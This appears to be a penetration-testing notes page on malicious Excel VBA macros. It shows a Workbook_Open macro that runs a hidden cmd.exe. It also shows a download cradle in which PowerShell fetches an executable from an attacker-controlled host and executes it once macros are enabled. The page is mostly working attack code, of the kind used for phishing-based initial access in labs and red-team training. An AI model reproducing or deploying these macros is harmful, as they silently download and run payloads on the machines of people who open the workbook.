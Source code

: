 # Excel

To create a new macro, call it "mymacro" or any arbitrary name. When the VB editor opens, select "ThisWorkbook" under the excel objects section in the project tree view. Make sure "Workbook" is selected in the first dropdown list and "Open" in the second. Then paste in the code and save and exit. This will run once the "Enable" macros button has been clicked by the user.

## VBA Application Launcher

We can launch applications outside of VBA with the "Shell" function. The function takes two arguments, first, the application to launch, and second, the "WindowStyle" of the launched application. We can use the "vbHide" or "0" value to launch a hidden application. Note, the application may not open in a window, however, it is visible as a child process with any process viewer/explorer utility such as procexp/64 from sysinternals.

```vba
Private Sub Workbook_Open()
    Dim str As String
    str = "cmd.exe"
    Shell str, 0
End Sub
```

## VBA PowerShell Download Cradle and Code Execution

{% hint style="info" %}
VBA in excel has a "Wait" function, however, for some reason I was unable to get it to work. Example below:

`Application.Wait (Now + TimeValue("0:00:10"))`

`Note that this will suspend all other events until the delay period is complete.`
{% endhint %}

```vba
Private Sub Workbook_Open()
    macro1
End Sub

Sub macro1()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/winout64.exe', 'C:\Users\Offsec\Desktop\winsysx64.exe')"
    Shell str, 1
    Wait (10)
    Dim RetVal
    RetVal = Shell("C:\Users\Offsec\Desktop\winsysx64.exe", 1)
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```





